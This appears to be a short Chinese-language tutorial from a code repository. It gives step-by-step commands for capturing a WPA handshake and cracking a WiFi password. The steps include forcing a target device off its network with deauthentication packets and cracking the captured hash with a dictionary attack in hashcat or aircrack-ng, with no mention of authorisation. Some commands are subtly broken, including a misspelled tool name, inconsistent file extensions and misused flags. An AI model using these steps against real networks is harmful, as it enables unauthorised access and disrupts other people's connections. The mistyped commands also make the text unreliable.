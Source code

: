 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.
**注意**: 監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

5. 斷開指定設備與指定 WiFi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 WiFi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

8. 關閉無線網卡監聽模式.
```bash
sudo airmon-ng stop wlan0mon
```

